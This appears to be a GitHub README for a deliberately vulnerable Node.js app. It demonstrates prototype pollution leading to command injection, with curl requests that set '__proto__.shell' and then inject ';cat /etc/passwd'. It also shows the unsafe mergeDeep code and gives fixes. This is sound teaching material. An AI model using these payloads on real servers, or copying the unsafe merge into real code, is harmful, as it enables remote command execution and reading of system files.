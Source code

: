 # prototype-pollution-demo

This repository provides an overly simplified example that demonstrates the possibly devastating impact of JS [prototype pollution](https://portswigger.net/daily-swig/prototype-pollution-the-dangerous-and-underrated-vulnerability-impacting-javascript-applications) in server-side Node.JS applications.

The `/status/:file?` route of the application presets the `git status` output of the current directory. It also accepts an optional file parameter passed to `git status <file>`.

## Running 

Run the example application with:

`npm start`

## Everything is fine

Since the `file` parameter is [passed as an argument](https://github.com/fourcube/prototype-pollution/blob/master/index.js#L19) to `git status` we try to perform a command injection by requesting [http://localhost:8000/status/;cat /etc/passwd](http://localhost:8000/status/;cat%20%2fetc%2fpasswd).

```bash
curl -i -s -k -X $'GET' \
    -H $'Host: localhost:8000' -H $'Connection: close' \
    $'http://localhost:8000/status/;cat%20%2fetc%2fpasswd'
```


![Still looking ok](images/totally-safe.png)

---
However, nothing terrible happens. By default, `child_process.spawn` is not running the command in a shell, so the meta-character injection fails.

The `child_process.spawn` [documentation](https://nodejs.org/api/child_process.html#child_processspawncommand-args-options) explicitly states that:


    If the `shell` option is enabled, do not pass unsanitized user input to this function. Any input containing shell metacharacters may be used to trigger arbitrary command execution.

So if this option is not enabled, our code must be safe to process arbitrary user inputs.


## Or is it?

We pollute the prototype by sending a specially crafted POST request to the `/notes` route.

The body of the request looks like this:

```json
{
    "author": "Chris",
    "note": "Some note",
    "meta": {
        "__proto__": {
            "shell": true
        }
    }
}
```

```bash
curl -i -s -k -X $'POST' \
    -H $'Host: localhost:8000' -H $'Content-Length: 94' -H $'Content-Type: application/json' -H $'Connection: close' \
    --data-binary $'{\x0d\x0a  \"author\": \"Chris\",\x0d\x0a  \"note\": \"Some note\",\x0d\x0a\"meta\": {\"__proto__\": {\x0d\x0a\"shell\":true\x0d\x0a} }\x0d\x0a}' \
    $'http://localhost:8000/notes'
```

Then we try again:

```bash
curl -i -s -k -X $'GET' \
    -H $'Host: localhost:8000' -H $'Connection: close' \
    $'http://localhost:8000/status/;cat%20%2fetc%2fpasswd'
```

![Oops](images/exploited.png)

---
Every request to `/status` that happens after the malicious POST request can now run arbitrary code.

## What happened?

The [vulnerable](https://github.com/fourcube/prototype-pollution/blob/master/index.js#L48) `/notes` request handler uses the unsafe [`deepMerge`](https://github.com/fourcube/prototype-pollution/blob/master/utils.js#L17) function to recursively merge two JS objects:

```js
// index.js
const note = {
  meta: mergeDeep(  // <-- calls the vulnerable code
    {
      date: new Date(),
      author: req.body.author || "anonymous",
    },
    req.body.meta // <-- arbitrary user input
  ),
  text: req.body.note,
};

// utils.js
/**
 * Deep merge two objects.
 * @param target
 * @param ...sources
 */
function mergeDeep(target, ...sources) {
  if (!sources.length) return target;
  const source = sources.shift();

  if (isObject(target) && isObject(source)) {
    for (const key in source) {
      if (isObject(source[key])) {
        if (!target[key]) Object.assign(target, { [key]: {} });
        mergeDeep(target[key], source[key]);
      } else {
        // __proto__ is overwritten here
        Object.assign(target, { [key]: source[key] });
      }
    }
  }

  return mergeDeep(target, ...sources);
}
```

## How can it be fixed?

When merging user-specified objects, filter out the keys `__proto__` and `constructor` before copying. [This](https://github.com/lodash/lodash/blob/ddfd9b11a0126db2302cb70ec9973b66baec0975/lodash.js#L6609) is how lodash does it.

Passing user-supplied arguments to methods like `spawn` or `exec` should always raise a red flag. Passing the user-supplied command argument through https://github.com/rgov/node-shlex would prevent the command injection and provide a safeguard against programming errors of the future.